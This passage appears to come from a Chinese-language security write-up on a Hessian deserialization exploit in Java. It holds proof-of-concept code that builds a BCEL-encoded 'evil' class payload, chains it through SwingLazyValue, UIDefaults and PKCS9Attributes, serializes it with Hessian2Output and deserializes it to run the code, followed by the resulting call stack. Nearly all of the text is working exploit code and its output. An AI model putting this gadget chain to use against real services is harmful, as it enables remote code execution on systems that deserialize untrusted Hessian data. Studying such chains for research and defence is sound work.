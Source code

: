 ```java
        JavaClass evil = Repository.lookupClass(test.class);
        String payload = "$$BCEL$$" + Utility.encode(evil.getBytes(), true);

        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{payload}}));

        setFieldValue(s,"attributes",uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(s);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

## 调用栈：

```java
runMain:131, JavaWrapper (com.sun.org.apache.bcel.internal.util)
_main:153, JavaWrapper (com.sun.org.apache.bcel.internal.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
getAttribute:265, PKCS9Attributes (sun.security.pkcs)
toString:334, PKCS9Attributes (sun.security.pkcs)
    
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
```
